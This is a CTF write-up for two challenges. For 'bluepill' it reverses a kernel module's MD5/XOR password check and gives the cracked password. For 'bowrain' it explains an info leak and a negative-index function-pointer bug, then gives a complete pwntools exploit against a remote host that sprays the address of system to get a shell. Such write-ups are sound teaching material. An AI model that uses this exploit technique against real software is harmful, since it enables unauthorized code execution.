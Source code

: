 ## bluepill

A kernel object is given, which I am not very familiar with, however, `pill_choice` is the critical function, obviously.

The basic logic is to get input from function `strncpy_from_user`, and test the input.

```c
  v5 = file_open("/proc/version");
  if ( v5 )
  {
    v6 = v5;
    file_read(v5, (unsigned __int8 *)magic, 0x1F4u);
    v7 = v6;
    v8 = &choice_35697;
    filp_close(v7, 0LL);
    if ( strlen((const char *)&choice_35697) > 0xB )
    {
      v9 = checks_35680;
      while ( 1 )
      {
        v10 = 0LL;
        memset(&v21, 0, 0x19uLL);
        *(_QWORD *)digest = 0LL;
        v19 = 0LL;
        s2 = 0LL;
        calc(v8, 4uLL, digest); //calculate md5 for 4 bytes
        do
        {
          v11 = magic[v10];
          v12 = digest[v10];
          v13 = 2 * v10++;
          sprintf((char *)&s2 + v13, "%02x", v11 ^ v12);
        }
        while ( v10 != 16 );
        if ( memcmp(v9, &s2, 0x20uLL) )
          break;
        v8 += 4;
        v9 += 33;
        if ( v8 == &choice_35697 + 12 )
        {
          printk(&success);
            //...
```

The length of string must be larger than 11, and then only 12 bytes are useful, which are grouped as 4 bytes and their md5 are calculated. To know `calc` is calculating md5, simply inspect the constants and global array data used and search them on google. However, in some other reverse challenges the hash algorithm may be modified, so this approach can't be 100% sure.

Then the md5 hashes will be `xor` with the content from `/proc/version`, then compare with the 

```assembly
.data:0000000000000800 checks_35680    db '40369e8c78b46122a4e813228ae8ee6e',0
.data:0000000000000821 aE4a75afe114e44 db 'e4a75afe114e4483a46aaa20fe4e6ead',0
.data:0000000000000842 a8c3749214f4a91 db '8c3749214f4a9131ebc67e6c7a86d162',0
```

so to get md5 hashes, simply `xor` the hex above with content in `/proc/version`, as shown.

```python
import hashlib
from pwn import *
proc_version = "Linux version 4.17.0-rc4+ (likvidera@ubuntu) (gcc version 7.2.0 (Ubuntu 7.2.0-8ubuntu3.2)) #9 Sat May 12 12:57:01 PDT 2018"
# obtained from cat /proc/version within the kernel given
keys = ["40369e8c78b46122a4e813228ae8ee6e", "e4a75afe114e4483a46aaa20fe4e6ead", "8c3749214f4a9131ebc67e6c7a86d162"]

def get_hashes():
	ret = []
	for i in xrange(0,3):
		one_hashes = ""
		hex_data = keys[i].decode("hex")
		for i in xrange(0,len(hex_data)):
			one_hashes += chr(ord(proc_version[i]) ^ ord(hex_data[i]))
		ret.append(one_hashes)
	return ret

def md5(string):
	m = hashlib.md5()
	m.update(string)
	return m.digest()

hashes = get_hashes()
for i in xrange(0, 3):
	print "".join("{:02x}".format(ord(c)) for c in hashes[i])

#0c5ff0f900941747d69b7a4de4c8da40
#a8ce348b696e32e6d619c34f906e5a83
#c05e2754376ae75499b5170314a6e54c
#crack the md5 using this website https://cmd5.org/
#g1Mm3Th3r3D1
```

However, this is not the flag, obtain the flag by accessing the kernel object.

```bash
$ echo "g1Mm3Th3r3D1" > /proc/bluepill
$ cat flag
```

## bowrain

### problems

1. no null termination in function `sub_CB0`, which is used to get a string, so PIE base address can be leaked.
2. `abs(INT_MIN)` is still a negative number
3. `x % n` is negative when x is negative

in function `main`

```c
 while ( 1 )
  {
    v4[0] = get_number();
    if ( v4[0] == -1 )
    {
      printf("\x1B[31;1merror:\x1B[0m not a number: %s\n", ::a1, *(_QWORD *)v4, v5);
        // leak PIE possible
    }
    else
    {
      v4[1] = abs(v4[0]) % 7;//can be negative if v4[0] is 2147483648
      memset(::a1, 0, endptr - (char *)::a1);
      v3 = (void (__fastcall *)(char *, _QWORD))*(&off_2030A0 + v4[1]);
      //will access a function pointer that can be manipulated by input if negative
      v3(++endptr, 0LL);
      //++endptr will point to the address just after the null terminator if input
    }
    print_choice();
```

and in `.data`

```assembly
.data:0000000000203020 a1              db 30h, 7Fh dup(0)
.data:00000000002030A0 off_2030A0      dq offset sub_AE0
.data:00000000002030A8                 dq offset sub_B1A
.data:00000000002030B0                 dq offset sub_B54
.data:00000000002030B8                 dq offset sub_B8E
.data:00000000002030C0                 dq offset sub_BC8
.data:00000000002030C8                 dq offset sub_C02
.data:00000000002030D0                 dq offset sub_C3C
```

buffer that holds the input is contiguous with the function pointers.

First of all, since there is no null termination, we can leak address of `sub_AE0` to get base address.

Secondly, if the index to access the function pointer table is negative, we can hijack the control flow to function `system`.

```python
from pwn import *

g_local=False
#context.log_level='debug'
if g_local:
	sh =process('./bowrain')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("159.65.80.92", 54321)

sh.send("A" * 0x80 + "\n")
sh.recvuntil("A" * 0x80)
leak = sh.recvuntil(": ")[:6] + "\x00\x00"
base = u64(leak) - 0xAE0
print hex(base)

payload = "2147483648" + "\x00" + "/bin/sh\x00"
payload += "A" * 5
assert len(payload) == 0x18
payload += ((0x80 - len(payload)) / 8) * p64(base + 0x958)
# spray the address of system, 
# so any access of function pointer table with negative index > -7 (by % operation)
# will give address of system
# excact number can be determined by debugging, but spraying is more convinient
sh.send(payload + "\n")
sh.interactive()
```

